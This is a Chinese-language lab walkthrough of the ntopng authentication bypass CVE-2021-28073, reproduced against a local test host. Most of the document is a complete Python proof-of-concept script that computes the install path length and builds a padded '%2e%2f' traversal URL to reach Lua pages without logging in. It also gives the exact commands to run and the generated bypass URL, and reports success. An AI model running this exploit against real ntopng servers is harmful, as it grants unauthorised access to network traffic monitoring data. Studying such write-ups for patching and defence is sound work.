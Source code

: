 ```python

```

```python

```

ntopng 权限绕过 （CVE-2021-28073）

描述: ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。

## 影响范围

ntopng commit < e8b9721479f401f595c5c7bb151819aceb03ad71



漏洞利用：

打开网页

![image-20211016183752116](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016183752116.png)

这个漏洞主要是未授权访问接口或者说目录

所以我们先用admin/admin登录进去随便选一个接口网址

http://192.168.1.192:34352/lua/hosts_stats.lua

![image-20211016184020315](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016184020315.png)

然后退出登录状态

用POC计算出ntopng lua目录的长度

```
python 1.py --url http://192.168.1.192:34352/ baselength
```

poc 如下

```python
import sys
import requests
import argparse
import logging


def is_ntopng() -> bool:
    response = session.get(base_url, allow_redirects=False)
    return response.status_code == 302 and '/lua/login.lua' in response.headers.get('Location', '')


def get_base_length() -> int:
    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'as_stats.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('as_stats.lua')

    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'get_macs_data.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('get_macs_data.lua')
     
    return -1

 

def get_padding_length(path: str):
    padding_length = 255 - 1 - base_length - len(path)
    if padding_length % 2 == 1:
        raise RuntimeError(f'path {path} is not support')

    return int(padding_length / 2)

 

logging.basicConfig(stream=sys.stderr, level=logging.WARNING)
session = requests.Session()
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='CVE-2021-28073 POC for ntopng.')
    parser.add_argument('-u', '--url', help='base url for ntopng, eg: http://192.168.1.233:3000', metavar='<URL>', required=True)
    parser.add_argument('-v', '--verbose', default=False, action='store_true')
    

    subparsers = parser.add_subparsers(dest='action')
     
    baselength_command = subparsers.add_parser('baselength', help='get base path length of ntopng')
     
    generate_command = subparsers.add_parser('generate', help='generate the authenticate bypass url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-p', '--path', help='lua pathname', metavar='<PATH>', required=True)
     
    generate_command = subparsers.add_parser('include', help='generate the arbitrary file inclusion url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-i', '--include', help='path to include', metavar='<PATH>', required=True)
     
    args = parser.parse_args()
    if not args.action:
        parser.print_help()
        sys.exit(1)
     
    if args.verbose:
        logging.basicConfig(stream=sys.stderr, level=logging.DEBUG)
     
    base_url = args.url.rstrip('/')
    
    # check target
    if not is_ntopng():
        raise RuntimeError('No Ntopng detected')
     
    if args.action == 'baselength':
        base_length = get_base_length()
        sys.stdout.write(f'ntopng install path length: {base_length}\n')
    elif args.action == 'generate':
        base_length = args.length
        path = args.path
        sys.stdout.write(base_url + '/lua/' + '%2e%2f' * get_padding_length(path) + path + '.css\n')


```

![image-20211016184700099](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016184700099.png)

长度36

未授权访问

```
python 1.py --url http://192.168.1.192:34352/  generate -l 36 -p hosts_stats.lua
```

不支持



![image-20211016184943953](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016184943953.png)

换到另一个接口网址

```
python 1.py --url ht
tp://192.168.1.192:34352/  generate -l 36 -p if_stats.lua
```

![image-20211016185018621](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016185018621.png)

用浏览器访问



http://192.168.1.192:34352/lua/%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2fif_stats.lua.css

![image-20211016185454416](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016185454416.png)

直接访问

越权成功

但是切换界面发现还是要登录用户


